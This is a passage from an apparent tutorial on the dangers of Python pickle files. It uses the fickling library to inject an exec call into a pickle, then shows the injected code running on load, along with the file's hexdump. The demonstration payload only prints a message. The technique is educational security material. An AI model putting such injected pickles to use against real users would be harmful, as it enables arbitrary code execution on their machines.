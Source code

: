 We can see that there isn’t much in there, a few opcodes and the associated data. You might be thinking, so what’s the problem with pickle?

Let’s try something else:

```python
from fickling.pickle import Pickled
import pickle

# Create a malicious pickle
data = "my friend needs to know this"

pickle_bin = pickle.dumps(data)

p = Pickled.load(pickle_bin)

p.insert_python_exec('print("you\'ve been pwned !")')

with open('payload.pkl', 'wb') as f:
    p.dump(f)

# innocently unpickle and get your friend's data
with open('payload.pkl', 'rb') as f:
    data = pickle.load(f)
    print(data)
```

Here we’re using the [fickling](https://github.com/trailofbits/fickling) library for simplicity. It allows us to add pickle instructions to execute code contained in a string via the `exec` function. This is how you circumvent the fact that you cannot define functions or classes in your pickles: you run exec on python code saved as a string.

When you run this, it creates a `payload.pkl` and prints the following:

```
you've been pwned !
my friend needs to know this
```

If we check the contents of the pickle file, we get:

```bash
# cat payload.pkl
c__builtin__
exec
(Vprint("you've been pwned !")
tR my friend needs to know this.%

# hexyl payload.pkl
┌────────┬─────────────────────────┬─────────────────────────┬────────┬────────┐
│00000000│ 63 5f 5f 62 75 69 6c 74 ┊ 69 6e 5f 5f 0a 65 78 65 │c__built┊in___exe│
│00000010│ 63 0a 28 56 70 72 69 6e ┊ 74 28 22 79 6f 75 27 76 │c_(Vprin┊t("you'v│
│00000020│ 65 20 62 65 65 6e 20 70 ┊ 77 6e 65 64 20 21 22 29 │e been p┊wned !")│
│00000030│ 0a 74 52 80 04 95 20 00 ┊ 00 00 00 00 00 00 8c 1c │_tR×•× 0┊000000×•│
│00000040│ 6d 79 20 66 72 69 65 6e ┊ 64 20 6e 65 65 64 73 20 │my frien┊d needs │
│00000050│ 74 6f 20 6b 6e 6f 77 20 ┊ 74 68 69 73 94 2e       │to know ┊this×.  │
└────────┴─────────────────────────┴─────────────────────────┴────────┴────────┘
```

